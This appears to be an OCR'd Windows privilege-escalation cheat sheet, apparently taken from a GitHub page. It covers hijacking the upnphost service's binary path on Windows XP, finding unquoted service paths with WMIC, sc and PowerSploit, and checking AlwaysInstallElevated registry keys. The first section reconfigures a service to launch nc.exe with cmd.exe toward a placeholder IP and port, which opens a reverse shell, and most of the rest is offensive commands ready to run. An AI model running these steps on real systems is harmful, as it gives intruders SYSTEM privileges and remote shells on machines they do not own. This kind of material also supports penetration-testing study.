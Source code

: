 ### Manual exploit Binary Path

Tested on Windows XP SP1

```bat
sc qc upnphost
sc config SSDPSRV start= auto
net start SSDPSRV
sc config upnphost binpath= "C:\nc.exe -nv [ip] [port] -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost
```

### Unquoted Service Paths

```bat
# Using PowerSploit
Get-ServiceUnquoted
Write-ServiceBinary -Name "GDCAgent' -Path "C:\GDCAgent.exe"

# Using WMIC
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name

# Using sc
sc query
sc qc service name

# Look for Binary_path_name and see if it is unquoted.

#Metasploit
exploit/windows/local/trusted_service_path
#PowerSploit
SharpUp PowerUp
```

### AlwaysInstallElevated

```bat
# manual cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# PowerSploit
Import-Module Privesc
Get-RegistryAlwaysInstallElevated
Write-UserAddMSI
```
